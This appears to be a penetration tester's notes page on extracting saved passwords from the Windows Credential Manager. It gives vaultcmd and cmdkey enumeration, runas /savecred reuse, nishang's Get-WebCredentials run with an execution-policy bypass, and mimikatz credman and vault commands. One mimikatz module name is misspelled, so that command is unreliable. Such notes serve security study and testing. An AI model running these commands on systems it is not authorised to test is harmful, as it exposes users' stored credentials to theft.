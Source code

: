 # Credentials Manager

### Resources

1. **MITRE ATT\&CK**

{% embed url="https://attack.mitre.org/techniques/T1555/004/" %}

2. **Additional resources (The Hacker Recipes)**

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/windows-credential-manager" %}

3. **Get-WebCredentials.ps1 (nishang)**

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1" %}

4. **cmdkey**

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey" %}



### (1) Enumeration

#### 1.1 vaultcmd

**1.1.1** `/list`

By default, Windows has two vaults: **Web** and **Windows machine credentials**. The following command displays the two vaults:

```powershell
C:\> vaultcmd /list
```

**1.1.2** `/listproperties`

The following commands will list the properties of the web and windows machine credentials respectively:&#x20;

```powershell
C:\> vaultcmd /listproperties:"web credentials"
C:\> vaultcmd /listproperties:"windows credentials"
```

**1.1.3** `/listcreds`

List more information about the stored credentials (for web and windows machine respectively):

```powershell
C:\> vaultcmd /listcreds:"web credentials"
C:\> vaultcmd /listcreds:"windows credentials"
```

#### 1.2 cmdkey

```powershell
C:\> cmdkey /list
```

### (2) Retrieving/exploiting stored credentials

#### 2.1 runas.exe

We can use the `runas.exe` command to run commands (eg. `cmd.exe`) as a particular user with stored credentials.

```powershell
C:\> runas.exe /savecred /user:<username> <command_to_execute>

# eg. to spawn a command prompt for the username "USER" 
C:\> runas.exe /savecred /user:USER cmd.exe
```

* `/savecred`: Indicates if the credentials have been previously saved by this user
  * This option is required to tell `runas.exe` to pull the stored credentials

#### 2.2 GetWebCredentials.ps1

The `vaultcmd` and `cmdkey` commands does not provide methods to show the password. Thus, we have to realy on external PowerShell scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1):

> Ensure to run powershell with the bypass policy

<pre class="language-powershell"><code class="lang-powershell">C:\> powershell -ep bypass
PS C:\> Import-Module ./Get-WebCredentials.ps1
<strong>PS C:\> Get-WebCredentials
</strong>
UserName  Resource             Password     Properties
--------  --------             --------     ----------
...
</code></pre>

#### 2.3 mimikatz

1. `sekulrsa::credman`&#x20;

```powershell
mimikatz # privilege::debug
mimikatz # sekulrsa::credman 
```

2. `vault::list`, `vault::cred`&#x20;

```powershell
mimikatz # privilege::debug

mimikatz # vault::list 
mimikatz # vault::cred 
```

If error is encountered:

```powershell
mimikatz # token::elevate
```

### Overview of differences between `vaultcmd` and `cmdkey`

1. `vaultcmd /list`&#x20;

a. Displays both the **Web Credentials** and **Windows Credentials**

&#x20;2\. `cmdkey /list`&#x20;

a. Displays the credentials stored under **Windows Credentials** only

b. Displays the entries added via `cmdkey /add` or `runas.exe /savecred` commands

c. The output from the `vaultcmd /list` may overlap with the results from `vaultcmd /listcreds`

